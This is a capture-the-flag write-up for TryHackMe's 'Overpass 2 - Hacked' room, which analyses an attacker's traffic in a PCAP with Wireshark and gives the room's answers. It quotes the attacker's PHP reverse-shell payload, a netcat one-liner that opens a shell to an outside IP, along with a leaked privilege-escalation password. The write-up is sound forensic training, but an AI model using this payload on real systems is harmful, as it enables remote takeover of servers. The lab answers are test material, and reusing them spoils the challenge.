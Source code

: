 <p align="center">
  THM : Overpass 2 - Hacked<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/overpass2hacked<br>
  <img src="https://i.imgur.com/xEn9XFh.jpg">
</p>

## Summary

- [Analysing PCAP file using Wireshark](#analysing-pcap-file-using-wireshark)
- [Cracking /etc/shadow hashes](#cracking-etcshadow-hashes)
- [Analysing the backdoor code](#analysing-the-backdoor-code)
- [Taking control of Overpass production server](#taking-control-of-overpass-production-server)
- [Conclusion](#conclusion)

## Analysing PCAP file using Wireshark

First, let's download the pcap file and open it with Wireshark. On packet number 6 we can see the HTTP source code of /development/ wich contains an upload form :  
![](https://i.imgur.com/YVBEzQh.jpg)  
![](https://i.imgur.com/SWGu24K.jpg)  

**Question : What was the URL of the page they used to upload a reverse shell ?**  
**Answer : /development/**  

Then, we can see in packet 14 a POST request to /development/upload.php. Let's see what was uploaded in this request :  
![](https://i.imgur.com/OpTqvQu.jpg)  
![](https://i.imgur.com/DSl75Ix.jpg)  

We can find the php payload used by the attacker to get a reverse shell.

**Question : What payload did the attacker use to gain access ?**  
**Answer : `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`**  

Looking at packet 32, we can see the beginning of a shell session. Probably the reverse shell of the attacker :  
![](https://i.imgur.com/RLRNkSG.jpg)  
![](https://i.imgur.com/hTUZw4o.jpg)  

Let's right click this packet and select Follow -> TCP Stream :  
![](https://i.imgur.com/fCCHNBw.jpg)  

We can now see everything the attacker have done using his reverse shell. He used a password to escalate his privileges :  
![](https://i.imgur.com/MdN0Cwp.jpg)  

**Question : What password did the attacker use to privesc ?**  
**Answer : whenevernoteartinstant**  
